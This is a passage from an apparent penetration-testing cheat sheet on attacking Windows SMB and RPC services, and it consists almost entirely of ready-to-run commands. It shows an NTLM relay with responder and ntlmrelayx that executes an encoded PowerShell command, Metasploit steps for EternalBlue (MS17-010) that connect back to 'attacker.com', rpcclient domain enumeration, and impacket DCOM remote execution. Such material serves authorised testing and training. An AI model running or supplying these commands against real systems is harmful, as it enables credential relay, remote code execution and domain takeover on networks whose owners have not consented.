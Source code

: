 #### SMB Relay Attacks

```bash
# Check for SMB signing
nmap --script=smb-security-mode -p 445 target.com
crackmapexec smb target.com --gen-relay-list unsigned_hosts.txt

# Setting up relay with responder and ntlmrelayx
# 1. Configure responder to disable SMB and HTTP servers
vim /etc/responder/Responder.conf
# Set SMB = Off and HTTP = Off

# 2. Run responder
responder -I eth0 -wrf

# 3. Run ntlmrelayx targeting hosts without SMB signing
ntlmrelayx.py -tf unsigned_hosts.txt -smb2support -c "powershell -enc base64encodedcommand"
```

#### EternalBlue (MS17-010) Exploitation

```bash
# Check for vulnerability
nmap --script smb-vuln-ms17-010 -p 445 target.com

# Using Metasploit
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS target.com
set LHOST attacker.com
exploit
```

## RPC (Port 135)

### RPC Enumeration

```bash
# Basic port scan
nmap -sV -p 135 target.com

# RPC endpoint mapper dump
rpcdump.py target.com

# Using impacket for RPC enumeration
impacket-rpcdump target.com
```

### RPC Exploitation

```bash
# Using rpcclient
rpcclient -U "username%password" target.com

# Enumerating with rpcclient
rpcclient $> srvinfo
rpcclient $> enumdomusers
rpcclient $> enumdomgroups
rpcclient $> queryuser username
rpcclient $> getdompwinfo

# DCOM execution through RPC (with admin privileges)
impacket-dcomexec domain/username:password@target.com
```
